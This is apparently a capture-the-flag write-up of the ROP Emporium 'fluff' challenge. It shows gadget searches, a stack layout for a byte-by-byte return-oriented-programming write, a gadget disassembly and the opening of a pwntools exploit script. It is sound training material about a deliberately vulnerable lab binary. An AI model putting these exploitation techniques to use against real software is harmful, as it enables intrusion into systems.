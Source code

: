```
pwndbg> ropper -- --search "pop rdi"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: /root/working/fluff/fluff_64/fluff
0x00000000004006a3: pop rdi; ret; 
```

The stack to place one character would be the following.
```
         | stack          |
         | -------------- |
32 bytes | start buffer   |
8  bytes | base pointer   | 
8  bytes | gadget 2       | # gadget to to control rdx, rcx, rbx       
8  bytes | 0xff00         | # control bits for length and starting loc for bextr
8  bytes | rcx val-0x3ef2 | # rcx val that gets copied to rbx, must sub 0x3ef2 because of add inst
8  bytes | null_eax gadget| # set the al value to 0 for the xlat instruction
8  bytes | 0xdeadbeef     | # extra junk because pop rbp is in the null eax gadget
8  bytes | gadget 1       | # place they byte at [rbx+al] into al             
8  bytes | pop rdi gadget | # place the location to write to in rdi
8  bytes | write_loc      | #                                                               
8  bytes | Gadget 3       | # Places al into [rdi]
8  bytes | -------------- |

```
```
   0x0000000000400628 <+0>:     xlat   BYTE PTR ds:[rbx]        # Gadget 1
   0x0000000000400629 <+1>:     ret    
   0x000000000040062a <+2>:     pop    rdx                      # Gadget 2
   0x000000000040062b <+3>:     pop    rcx
   0x000000000040062c <+4>:     add    rcx,0x3ef2
   0x0000000000400633 <+11>:    bextr  rbx,rcx,rdx
   0x0000000000400638 <+16>:    ret    
   0x0000000000400639 <+17>:    stos   BYTE PTR es:[rdi],al     # Gadget 3
   0x000000000040063a <+18>:    ret    

```

After coding up my first exploit it would fail after writing a couple of characters. It took a little debugging, but I found out that the read would only read in 512 characters and my exploit was close to 900 which was way to long. So I went back and found a couple of areas that I could trim down the exploit. For example, I discovered that the stosb instruction incremented the destination by 1 every time it was run, so after setting rdi once, I didn't have to continue to reset it. I also saw that rdx was never touched, so it could be set once. After trimming down the exploit I was left with this.
```Python
#!/usr/bin/python3

from pwn import *

write_loc 	= 0x601029
print_file 	= p64(0x400620)

target		= "./fluff"
back_junk 	= b"B" * 20

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xc0deba5e)*2
badChars = b"xga."
```